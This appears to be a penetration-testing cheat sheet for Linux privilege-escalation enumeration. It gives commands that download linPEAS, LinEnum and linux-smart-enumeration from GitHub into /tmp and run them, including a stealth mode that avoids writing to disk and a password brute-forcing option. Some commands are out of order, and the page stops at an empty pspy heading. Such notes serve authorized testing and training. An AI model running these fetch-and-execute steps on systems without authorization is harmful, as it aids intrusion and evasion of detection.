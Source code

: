 ## PEASS - Privilege Escalation Awesome Scripts SUITE

```bash
wget "https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh" -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
```

All checks - deeper system enumeration, but it takes longer to complete:

```bash
/tmp/linpeas.sh -a
```

Superfast & stealth - This will bypass some time consuming checks. In stealth mode Nothing will be written to the disk:

```bash
/tmp/linpeas.sh -s
```

Password - Pass a password that will be used with sudo -l and bruteforcing other users:

```bash
/tmp/linpeas.sh -P
```

## linEnum - High-level summary of the checks/tasks performed

```bash
wget "https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh" -O /tmp/LinEnum.sh
chmod +x /tmp/LinEnum.sh
/tmp/LinEnum.sh -s -k keyword -r report -e /tmp/ -t
```

Shows interesting information that should help you to privesc:

```bash
/tmp/lse.sh -l1
```

Dump all the information it gathers about the system:

```bash
/tmp/lse.sh -l2
```

## linux-smart-enumeration

```bash
wget "https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh" -O /tmp/lse.sh
chmod +x /tmp/lse.sh
/tmp/lse.sh -l1
```

## pspy - unprivileged linux process snooping
